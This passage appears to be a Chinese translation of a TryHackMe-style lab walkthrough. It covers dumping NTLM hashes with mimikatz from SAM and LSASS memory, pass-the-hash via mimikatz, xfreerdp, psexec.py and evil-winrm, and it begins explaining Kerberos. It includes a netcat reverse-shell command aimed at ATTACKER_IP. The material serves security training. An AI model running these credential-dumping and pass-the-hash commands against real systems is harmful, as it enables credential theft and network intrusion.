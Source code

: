 要提取 NTLM 哈希，我们可以使用 mimikatz 读取本地 SAM 或直接从 LSASS 内存中提取哈希。

从本地 SAM 提取 NTLM 哈希：

此方法仅允许您从计算机上的本地用户获取哈希。没有域用户的哈希值可用。

    mimikatz # privilege::debug
    mimikatz # token::elevate

    mimikatz # lsadump::sam

从 LSASS 内存中提取 NTLM 哈希：

此方法将允许您提取本地用户和最近登录到计算机的任何域用户的任何 NTLM 哈希。

    mimikatz # privilege::debug
    mimikatz # token::elevate

    mimikatz # sekurlsa::msv 

然后，我们可以使用提取的哈希来执行 PtH 攻击，方法是使用 mimikatz 在反向 shell（或您喜欢的任何其他命令）上为受害用户注入访问令牌，如下所示：

    mimikatz # token::revert
    mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"

我们使用的通知 token::revert 重新建立我们原来的令牌权限，因为尝试使用提升的令牌传递哈希是行不通的。

这相当于使用 runas /netonly 但是使用哈希而不是密码，并且会生成一个新的反向外壳，我们可以从中以受害用户的身份启动任何命令。

#### 使用 Linux 传递哈希：

如果您可以访问 linux 盒子（如 AttackBox），则有几个工具内置支持使用不同的协议执行 PtH。根据您可以使用的服务，您可以执行以下操作：

#### 使用 PtH 连接到 RDP：

    xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

#### 使用 PtH 通过 psexec 连接：

    psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

注意：只有 psexec 的 linux 版本支持 PtH。

#### 使用 PtH 连接到 WinRM：

    evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

---

### Kerberos 身份验证

让我们快速浏览一下 Kerberos 身份验证在 Windows 网络上的工作原理：

用户将他的用户名和时间戳发送到密钥分发中心 （KDC），该服务通常安装在负责在网络上创建 Kerberos 票证的域控制器上。

KDC 将创建并发回票证授予票证 （TGT），允许用户请求票证以访问特定服务，而无需将其凭据传递给服务本身。与 TGT 一起，向用户提供一个会话密钥，他们需要该密钥来生成随后的请求。

请注意，TGT 是使用 krbtgt 帐户的密码哈希加密的，因此用户无法访问其内容。重要的是要知道加密的 TGT 包含会话密钥的副本作为其内容的一部分，并且 KDC 无需存储会话密钥，因为它可以通过解密 TGT 来恢复副本（如果需要）。
